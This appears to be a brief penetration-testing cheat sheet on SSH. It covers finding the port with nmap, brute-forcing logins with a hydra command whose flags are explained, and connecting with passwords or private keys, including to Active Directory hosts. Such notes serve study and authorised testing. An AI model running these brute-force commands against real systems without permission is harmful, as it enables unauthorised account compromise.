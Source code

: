 --- ---

<h2>Find SSH Port</h2>

Nmap
```
nmap -sV -SC IP -p20,21
```

- Possible to find SSH on an other port

---

<h2>Attack</h2>

- Brute Force
```Terminal
hydra -t X -l USERNAME -P WORDLIST -vV IP ssh
```

Let's break it down:

- hydra      --->  Runs the hydra tool  
- -t X         --->  Number of parallel connections per target  
- -l             ---> Points to the user who's account you're trying to compromise  
- -P            ---> Points to the file containing the list of possible passwords  
- -vV          ---> Sets verbose mode to very verbose, shows login + password 
- IP             ---> The IP address of the target machine  
- ssh           --->  Sets the protocol

---

<h2>Connection</h2>

<h4>Linux Connection</h4>

- Command
```Terminal
ssh USER@IP
ssh -i id_rsa USER@IP
```

- id_rsa                ---> Private
- id_rsa.pub         ---> Public (Contain Username)

<h4>Windows Connection</h4>

- Option
```Terminal
Remmina (tool)
```

<h4>Active Directory Connection</h4>

- Options
```Terminal
- Remmina (tool)

or

- ssh AD-DOMAIN\\<AD Username>@URL/IP/AD-ADDRESS        ---> From Linux terminal
```
